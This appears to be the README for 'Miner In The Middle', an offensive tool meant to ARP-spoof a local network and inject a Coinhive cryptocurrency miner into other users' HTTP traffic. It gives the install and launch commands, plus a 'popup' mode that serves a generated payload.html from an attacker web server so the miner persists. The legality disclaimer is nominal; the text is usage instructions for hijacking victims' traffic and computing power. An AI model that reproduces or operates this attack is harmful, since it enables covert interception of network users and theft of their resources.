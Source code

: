 
		
	 Miner In The Middle
	 Author - Anthony Russell
	 @DotNetRussell

	 Not for illegal use!
	 (unless you own the network or have permission from everyone on it, it's illegal)
	 
	 
	 You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
	 To install dependencies run:
	 	./miner_itm.sh --install
	
	 ----To launch a standard miner attack----
	
	 The standard network attack arp spoofs the network, then injects a miner into http responses.
	 To launch a standard miner injection attack run:
	 	./miner_itm.sh <coinhive api key> <gateway ip> <interface name>
	
	
	 ----To launch a popup miner attack----
	
	 A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button. When they do it will spawn a popup with their site in it and the origonal window will launch a miner. This is nice for persistence. 
	
   	 First run:
	 		./miner_itm.sh --generate <coinhive api key>
	
	 and place payload.html into your web server root directory
	
   	 Second run:
			./miner_itm.sh -p <gateway ip> <interface name> <web server ip>
	
	

